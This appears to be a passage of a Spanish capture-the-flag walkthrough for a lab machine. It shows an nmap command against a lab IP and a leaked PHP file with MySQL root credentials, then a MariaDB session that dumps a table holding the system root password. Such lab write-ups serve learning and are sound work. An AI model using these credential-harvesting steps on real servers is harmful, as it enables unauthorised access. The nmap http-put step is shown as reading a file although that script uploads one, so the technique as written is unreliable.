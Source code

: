 ```sh
oliva@oliva:~$ nmap -p 8080 192.168.1.108 --script http-put --script-args http-put.url=/,http-put.file=/var/www/html/index.php
```

Tras unos segundos de espera recibimos lo siguiente:

```php
Hi oliva,
Here the pass to obtain root:

<?php
$dbname = 'easy';
$dbuser = 'root';
$dbpass = 'Savingmypass';
$dbhost = 'localhost';
?>

<a href="oliva">CLICK!</a>
```

¡Qué bien! Tenemos la contraseña de **`root`**, pero ojo, es la contraseña del servidor **`MySQL`**. Vamos a iniciar sesión y sigamos lo que nos dice en el fichero.

```sh
oliva@oliva:~$ mysql -u root -p
Enter password: Savingmypass
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 8
Server version: 10.11.3-MariaDB-1 Debian 12

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> use easy;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [easy]> show tables;
+----------------+
| Tables_in_easy |
+----------------+
| logging        |
+----------------+
1 row in set (0,000 sec)

MariaDB [easy]> SELECT * FROM logging;
+--------+------+--------------+
| id_log | uzer | pazz         |
+--------+------+--------------+
|      1 | root | OhItwasEasy! |
+--------+------+--------------+
1 row in set (0,016 sec)

MariaDB [easy]>
```

¡Enhorabuena! Tenemos la contraseña de **`root`**. ¡Qué fácil!

